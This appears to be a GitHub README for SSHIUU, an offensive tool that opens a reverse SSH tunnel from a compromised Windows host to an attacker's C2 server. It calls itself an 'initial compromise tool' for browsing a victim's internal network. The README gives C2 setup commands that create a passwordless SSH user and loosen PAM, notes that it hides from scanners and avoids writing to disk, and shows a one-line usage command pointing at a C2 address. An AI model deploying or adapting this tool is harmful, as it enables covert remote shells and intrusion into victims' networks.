 # SSHIUU
![alt text](https://media1.tenor.com/images/616ff5ed375ce21b68e1809efab574db/tenor.gif?itemid=9888637)

This is a statically compiled tool (no dependencies needed) that can be used to create a SSH server and as SSH client. It will firstly, spin up an SSH server (listening in `localhost` and by default in port 2222), create certificates for it and finally create a reverse SSH tunnel with the C2. Due to the SSH server listens at `localhost`, automated scanners won't be able to detect it. 

Windows systems lack of a proper TTY but thanks to [this](https://blogs.msdn.microsoft.com/commandline/2018/08/02/windows-command-line-introducing-the-windows-pseudo-console-conpty/) we can in recent Windows versions get a fully functional TTY. In the case that the target system does not support `CreatePseudoConsole` it will downgrade to a simple and not interactive shell.

This tool can be used as a fast initial compromise tool that can be used not only as a shell but also to browse the internal network of the victim. 

## Setup instructions
### C2 server
We need to properly configure the SSH server running at the C2 so we don't get hacked.

Run all of this as root
Create a new user:
```adduser --disabled-password anonymous```

Disable his shell
```usermod -s /bin/false anonymous```

Make the password actually empty:

```sed -i -re 's/^anonymous:[^:]+:/anonymous::/' /etc/passwd /etc/shadow```

Allow blank passwords for SSH sessions in PAM: edit `/etc/pam.d/sshd` and replace the line that reads @include common-auth with:
```auth [success=1 default=ignore] pam_unix.so nullok
auth requisite pam_deny.so
auth required pam_permit.so
```

Allow blank passwords for SSH sessions of anonymous in `/etc/ssh/sshd_config`:
```PermitEmptyPasswords yes```

Restart sshd:
```systemctl restart ssh```

### Client
You can just use the prebuilt binaries that are in [Release](https://github.com/illera88/SSHIUU/releases/tag/v1.0). 

If you want to compile from source keep reading:
Compiling the client is somehow tricky because `libssh` (the library we use to handle SSH communications) does not support creating a SSH server using certificates from memory but they need to exist in disk. Since we are 3l373 hackers we don't want to drop any file to disk so I modified the `libssh` code. 

You can find the modified code [here](https://github.com/illera88/libssh_mod) or getting the prebuilt libraries [here](https://github.com/illera88/PrecompiledLibraries/tree/master/windows/libssh_mod)

To compile it just make sure you add the includes and libraries for:
- libssh_mod 
- zlib
- openssl

You can find all of them already prebuilt for Windows [here](https://github.com/illera88/PrecompiledLibraries/).



## Using it
It's very easy: 

```
SSHIUU.exe 192.168.15.135
```
